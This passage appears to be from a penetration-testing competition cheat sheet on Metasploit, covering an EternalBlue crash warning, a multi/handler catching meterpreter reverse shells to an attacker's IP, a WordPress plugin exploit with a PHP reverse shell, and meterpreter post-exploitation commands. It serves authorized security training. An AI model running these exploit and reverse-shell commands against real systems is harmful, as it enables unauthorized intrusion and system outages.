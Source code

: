 **WARNING:** EternalBlue can crash systems! From CPTC webinar: "Don't use EternalBlue on DC - caused outage."
- Only use on non-critical systems
- Check with client first if unsure
- Document if you crash something

### Scenario 2: Multi-Handler (Catching Shells)

**When you have payload but want Metasploit shell management:**

```bash
msfconsole -q

use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST YOUR_KALI_IP
set LPORT 4444
exploit -j  # Background job

# Now generate payload with msfvenom
# When it executes, you get meterpreter session
```

**Useful for:**
- Multiple shells from different exploits
- Session management
- Post-exploitation modules

### Scenario 3: Web Application Exploits

**If searchsploit shows Metasploit module:**

```bash
# Search for exploit
search wordpress plugin name

# Use exploit
use exploit/unix/webapp/wordpress_plugin_vuln
set RHOSTS 10.10.10.50
set TARGETURI /
set payload php/meterpreter/reverse_tcp
set LHOST YOUR_IP
exploit
```

---

## Meterpreter Post-Exploitation

### Once You Have Meterpreter Session

```bash
# Background session
background

# List sessions
sessions -l

# Interact with session
sessions -i 1

# In meterpreter session:
sysinfo          # System information
getuid           # Current user
getprivs         # Privileges
ps               # Running processes
```